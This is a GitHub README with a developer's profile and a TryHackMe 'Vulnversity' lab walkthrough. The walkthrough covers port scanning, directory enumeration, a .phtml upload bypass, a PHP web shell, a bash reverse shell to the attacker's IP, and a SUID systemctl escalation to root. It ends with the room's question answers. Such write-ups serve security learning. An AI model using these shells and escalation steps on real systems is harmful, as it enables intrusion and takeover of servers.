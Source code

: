 # Dileshwar Lahre

💻 MERN Stack Developer | 🛡️ Cyber
security Enthusiast | 🎯 OSCP Aspirant

- 🔧 Currently building secure, fullstack applications with React & Node.js  
- 🧠 Learning offensive security & solving labs on TryHackMe + Hack The Box  
- 📂 Portfolio: [view My Portfolio](https://portfolio-five-psi-26.vercel.app/)  
- ✉️ Email: dileshwarlahre806@gmail.com  
- 🤝 Open to collaborate in development or security research projects  
---
> “I build with security in mind, and break to understand the foundation.”
# TryHackMe - Vulnversity

> Difficulty: Easy  
> Tags: Enumeration, Exploitation, File Upload, SUID, Privilege Escalation

---

## 1. Nmap Scan

```bash
nmap -sC -sV -oN vulnversity.nmap 10.10.XX.XX
```

**Ports Found:**
```
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu
139/tcp  open  netbios-ssn   Samba smbd 3.X
445/tcp  open  microsoft-ds  Samba smbd 3.X
3128/tcp open  squid-http    Squid http proxy 3.5.27
3333/tcp open  http          Apache httpd
```

---

## 2. Web Enumeration

**URL:** http://10.10.XX.XX:3333

```bash
gobuster dir -u http://10.10.XX.XX:3333 -w /usr/share/wordlists/dirb/common.txt
```

**Found `/internal/` folder**  
It had a **file upload page**.

Tried uploading `.php` — failed  
Tried `.phtml` — success!

![Upload Page](link-to-screenshot-1)

---

## 3. Reverse Shell Upload

Used this PHP shell:

```php
<?php system($_GET['cmd']); ?>
```

Saved as: `shell.phtml` and uploaded.

Found shell at:

```
http://10.10.XX.XX/internal/uploads/shell.phtml?cmd=whoami
```

To get a reverse shell:

```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.9.XX.XX/4444 0>&1'"); ?>
```

Start listener:

```bash
nc -lvnp 4444
```

![Reverse Shell Upload](link-to-screenshot-2)

---

## 4. Shell Access

Got shell as `www-data`. Stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 5. Privilege Escalation

Check SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Found:  
```
/bin/systemctl
```

---

## 6. Exploiting SUID systemctl

```bash
mkdir -p /tmp/rootme && cd /tmp/rootme
echo -e '#!/bin/bash\nbash -i' > root.sh
chmod +x root.sh

echo -e '[Unit]\nDescription=RootMe\n[Service]\nType=simple\nExecStart=/tmp/rootme/root.sh\n[Install]\nWantedBy=multi-user.target' > root.service

/bin/systemctl link /tmp/rootme/root.service
/bin/systemctl enable --now rootme.service
```

Now check:

```bash
whoami
# root
```

![Privilege Escalation](link-to-screenshot-3)

---

## 7. Root Flag

```bash
cat /root/root.txt
```

---

## 8. THM Questions Answer

- **CVE full form:** Common Vulnerabilities and Exposures
- **Hidden directory:** internal
- **User flag:** /home/ubuntu/user.txt
- **Root flag:** /root/root.txt

---

## Rooted!
